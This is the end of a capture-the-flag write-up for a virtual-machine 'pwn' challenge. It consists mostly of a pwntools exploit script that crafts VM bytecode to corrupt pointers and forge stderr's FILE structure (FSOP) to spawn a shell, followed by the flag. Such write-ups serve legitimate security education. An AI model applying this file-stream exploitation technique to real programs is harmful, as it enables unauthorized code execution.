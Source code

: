 ```python
flags = unpack("  " + "sh".ljust(6, "\x00"), 64)  # "  sh"

code = b""
# nglobal = code_size = 0x10000000
code += push(0x10000000) + gstore(-2110)
code += push(0x10000000) + gstore(-2106)
# we find the difference in the MSB of the two pointers
code += gload(-2111) + gload(-2107) + sub()
# save the result to restore MSB later on
code += gstore(-2106)
# next, we offset the LSB and set global pointer to stderr IOFile
code += gload(-2112) + push(STDERR_OFFSET-0x50) + add()
# store it into global LSB
code += gstore(-2108) + add()
# fix nglobals and move the sp so we don't overwrite crucial stuff
code += push(0x10000000)
# FSOP
code += push(flags >> 32) + push(flags & 0xFFFFFFFF) + gstore(20) + gstore(21)
code += push(0) + push(0) + gstore(28) + gstore(29)  # 0x20
code += push(0) + push(1) + gstore(30) + gstore(31)  # 0x28
code += push(0) + push(0) + gstore(68) + gstore(69)  # _mode 0xc0
code += gload(74) + gload(75) + gstore(55) + push(-0x18) + add() + gstore(54)  # _lock 0x88
code += gload(74) + gload(75) + gstore(47) + push(-1667600) + add() + gstore(46) # chain 0x68
code += gload(74) + gload(75) + gstore(59) + push(16672) + add() + gstore(58) # codecvt 0x98
code += gload(74) + gload(75) + gstore(61) + push(16672-0x48) + add() + gstore(60) # wide_data 0xa0
code += gload(74) + gload(75) + gstore(75) + push(-1344) + add() + gstore(74) # vtable 0d8
code += pop() + push(0)
# win :3
code += b"\x00"*8

p.send(str(0x50000).encode())
# p.send(str(len(code)).encode())
if not args.REMOTE and not args.SOLVE:
    gdb.attach(p, """
               break *vm_exec+175
               continue
               """)
pause()
p.sendline(code)


p.interactive()

```

Evidently a more simple script.

Thanks for the challenge! `wxmctf{congrats_you_pwned_FOSS_Now_go_find_some_zero_days!}`

